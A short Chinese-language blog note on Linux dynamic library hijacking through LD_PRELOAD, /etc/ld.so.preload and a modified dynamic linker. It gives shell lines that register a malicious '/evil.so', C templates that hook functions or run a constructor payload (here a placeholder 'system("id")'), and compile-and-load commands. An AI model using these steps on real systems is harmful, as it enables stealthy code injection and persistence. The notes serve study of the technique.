 ```yaml
---
layout: post
title: 动态链接库劫持
date: 2022-9-22
categories: blog
tags: [笔记,拓展知识]
description: 动态链接库

---
```


### 动态链接库劫持

***

#### 程序链接方式

静态链接：程序运行前将各个目标模块以及库函数链接
装入链接：在程序编译装入内存时，一边编译，一边链接
运行链接：在程序执行时，需要时才进行链接

#### 动态链接库劫持

LD_PRELOAD环境变量和/etc/ld.so.preload配置文件中指定的动态链接库比LD_LIBRARY_PATH环境变量所定义的链接库查找路径的文件优先级要高，即使用户不使用，仍会加载。  

#### 利用方式  

1.`通过LD_PRELOAD环境变量加载`  
2.`通过/etc/ld.so.preload配置文件加载`  
3.`通过修改动态链接器实现恶意代码`

##### 通过LD_PRELOAD环境变量加载

```shell
LD_PRELOAD = /evil.so #设置恶意动态链接库
export  LD_PRELOAD  #导出生效
```

##### 通过/etc/ld.so.preload配置文件加载

```shell
echo "/evil.so" > /etc/ld.so.preload
```

##### 通过修改动态链接器实现

```shell
#1.修改动态链接器中配置文件路径/etc/ld.so.preload为自定义的路径
#2.在该路径中写入要预加载的恶意动态链接库的绝对路径
```

#### 利用

##### 查看库函数 

```shell
readelf -Ws /usr/bin/ls
```

##### 选择函数重写

```c
//劫持某一函数
#include<stdlib.h>
#include<stdio.h>
#include<string.h>
void payload(){
     //exp;
}
int xxx(){
	if(getenv("LD_PRELOAD") == NULL){
		return 0;
	}
	unsetenv("LD_PRELOAD");
	payload();
}

//所有命令全量劫持
#include<stdlib.h>
#include<stdio.h>
#include<string.h>
__attribute__((__constructor__)) void preload (){
    unsetenv("LD_PRELOAD");
    system("id");//exp
}
```

##### 编译加载

```shell
gcc -shared -fPIC test.c -o test.so
export LD_PRELOAD=$PWD/test.so
```

